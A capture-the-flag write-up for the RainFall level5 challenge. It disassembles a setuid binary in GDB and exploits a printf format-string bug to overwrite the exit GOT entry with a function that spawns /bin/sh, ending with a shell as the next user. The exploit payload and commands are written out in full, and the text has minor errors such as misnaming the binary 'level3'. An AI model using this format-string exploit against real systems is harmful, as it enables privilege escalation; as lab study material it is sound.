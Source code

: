 ```sh
level5@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level5 level5   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level5 level5  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level5 level5 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
-rw-r--r--+ 1 level5 level5   65 Sep 23  2015 .pass
-rw-r--r--  1 level5 level5  675 Apr  3  2012 .profile
level5@RainFall:~$ ./level5
42
42
level5@RainFall:~$ ./level5 42
42
42
```
There is one excutable file **level3**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp) # "/bin/sh"
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax # stdin
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp) # 512
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax # some variable[512]
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt> # fgets(buffer, 512, stdin)
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt> # printf(buffer);
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
   End of assembler dump.
   (gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave  
   0x08048510 <+12>:    ret    
End of assembler dump.
```
We can see 3 functions ```main(), n(), o()```. ```n()``` function gets standard input by ```fgets()``` and ```printf()``` without formatter. ```o()``` function have ```system()``` call, but its called by anywhere. \
We will be try same things like previous level, but now we have to call function ```o()```.
```sh
level5@RainFall:~$ python -c 'print "BBBB" + " %x" * 10' > /tmp/exploit5
level5@RainFall:~$ cat /tmp/exploit5 | ./level5
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078
level5@RainFall:~$ 
```
Now we can find easliy the input located in 4th of stack, we will replace the address of exit just after ```printf()``` by function ```o()```.
```sh
(gdb) disas n
Dump of assembler code for function n:
...
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
(gdb) x/i 0x080483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
...
```
The start address of function ```o()``` is 0x80484a4, in decimal 134513828.
```
original exit address + o() start address - 4 + %4$n
```
```sh
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit5
level5@RainFall:~$ cat /tmp/exploit5 - | ./level5
...
whoami
level6
cat /home/user/level6/.pass
(hidden)
```
level5 passed !

